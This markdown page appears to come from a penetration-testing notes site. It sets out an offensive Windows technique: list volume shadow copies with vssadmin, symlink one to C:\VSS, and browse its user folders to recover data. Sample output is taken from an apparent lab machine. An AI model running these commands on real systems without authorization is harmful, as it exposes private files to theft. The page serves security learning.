 ```yaml
---
title: "Volume Shadow Copies"
date: 2024-8-22
tags: ["Data Leakage", "Data Exfiltration", "Volume Shadow Copies", "Enumeration", "Windows", "VSC"]
---
```


### Abuse #1: Recover data from shadow copies

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Check

```console
vssadmin list shadows
```

```console {class="sample-code"}
PS C:\Windows\system32> vssadmin list shadows
vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {001689e5-f1a7-40a8-8b5b-8b6371bd07ca}
   Contained 1 shadow copies at creation time: 9/9/2019 3:10:57 AM
      Shadow Copy ID: {046396e4-6312-45b7-96cd-5e5f6fb017ef}
         Original Volume: (C:)\\?\Volume{21385651-0000-0000-0000-602200000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: dev.htb.local
         Service Machine: dev.htb.local
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

#### 2. Create symlink and expose the volume

```console
cmd /c mklink /d C:\VSS <SHADOW_COPY_VOLUME_PATH>
```

```console {class="sample-code"}
PS C:\Windows\system32> cmd /c mklink /d C:\VSS \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

#### 3. Access

```console
ls C:\VSS\Users
```

{{< /tabcontent >}}
